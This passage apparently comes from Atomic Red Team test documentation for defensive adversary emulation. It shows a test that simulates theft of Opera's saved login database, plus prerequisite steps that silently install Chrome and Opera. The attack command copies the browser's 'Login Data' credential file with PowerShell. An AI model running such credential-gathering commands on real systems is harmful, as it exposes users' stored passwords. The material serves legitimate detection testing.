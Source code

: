 

#### Dependencies:  Run with `powershell`!
##### Description: Chrome must be installed
##### Check Prereq Commands:
```powershell
if ((Test-Path "C:\Program Files\Google\Chrome\Application\chrome.exe") -Or (Test-Path "C:\Program Files (x86)\Google\Chrome\Application\chrome.exe")) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
$installer = "PathToAtomicsFolder\..\ExternalPayloads\ChromeStandaloneSetup64.msi"
Invoke-WebRequest -OutFile "PathToAtomicsFolder\..\ExternalPayloads\ChromeStandaloneSetup64.msi" https://dl.google.com/chrome/install/googlechromestandaloneenterprise64.msi
msiexec /i $installer /qn
Start-Process -FilePath "chrome.exe"
Stop-Process -Name "chrome"
```




<br/>
<br/>

## Atomic Test #5 - Simulating access to Opera Login Data
Simulates an adversary accessing encrypted credentials from Opera web browser's login database.

**Supported Platforms:** Windows


**auto_generated_guid:** 28498c17-57e4-495a-b0be-cc1e36de408b






#### Attack Commands: Run with `powershell`! 


```powershell
Copy-Item "$env:APPDATA\Opera Software\Opera Stable\Login Data" -Destination "PathToAtomicsFolder\..\ExternalPayloads"
```

#### Cleanup Commands:
```powershell
Remove-Item -Path "PathToAtomicsFolder\..\ExternalPayloads\Login Data" -Force -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: Opera must be installed
##### Check Prereq Commands:
```powershell
if (((Test-Path "$env:LOCALAPPDATA\Programs\Opera\launcher.exe") -Or (Test-Path "C:\Program Files\Opera\launcher.exe") -Or (Test-Path "C:\Program Files (x86)\Opera\launcher.exe"))) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
$installer = "PathToAtomicsFolder\..\ExternalPayloads\OperaStandaloneInstaller.exe"
Invoke-WebRequest -OutFile "PathToAtomicsFolder\..\ExternalPayloads\OperaStandaloneInstaller.exe" https://get.geo.opera.com/pub/opera/desktop/82.0.4227.43/win/Opera_82.0.4227.43_Setup.exe
Start-Process $installer -ArgumentList '/install /silent /launchopera=1 /setdefaultbrowser=0'
```